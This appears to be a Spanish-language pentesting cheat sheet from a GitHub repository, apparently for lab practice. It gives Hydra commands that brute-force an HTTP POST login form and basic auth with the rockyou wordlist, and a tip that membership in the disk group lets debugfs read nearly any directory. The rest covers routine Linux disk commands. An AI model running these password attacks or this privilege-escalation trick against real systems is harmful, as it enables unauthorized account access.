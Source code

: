 Ejemplos hay que practicar

```

 hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.11.106 -s 5000 -v http-post-form "/login/:user=^USER^&password=^PASS^:Invalid Password"

-f: Este parámetro le dice a Hydra que finalice el ataque después de que se encuentre la primera contraseña válida.

 hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.11.106 -s 5000 -v http-post-form "/login/:user=^USER^&password=^PASS^:Invalid Password"
```

basic auth

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt -f 10.10.11.106 http-get /

```


## Ver particiones de Linux (como Mi Pc en Windows)

Es mas o menos un equivalente pero para la linea de comandos.

![image](https://github.com/gecr07/Acordeon/assets/63270579/38ec2e62-1fc1-428e-b6d2-f41167dcdea8)


```
fdisk -l
```

### debugfs

debugfs es un sistema de archivos especial disponible en el núcleo Linux desde la versión 2.6.10-rc3.​ Si te encuentras en el grupo disk practicamente tienes acceso a cualquier directorio del sistema

```
debugfs /dev/sda1
```

### Tamaño de un archivo (Diks usage)

Para ver el tamaño de un archivo usa

```
du -h root.txt
```

## Ver espacio sobrante (Disk Free supongo)

 muestra la cantidad de espacio en disco usado y disponible en los sistemas de archivos montados. Es útil para obtener una vista rápida de la disponibilidad de espacio en diferentes particiones o dispositivos de almacenamiento.

```
df -h
```

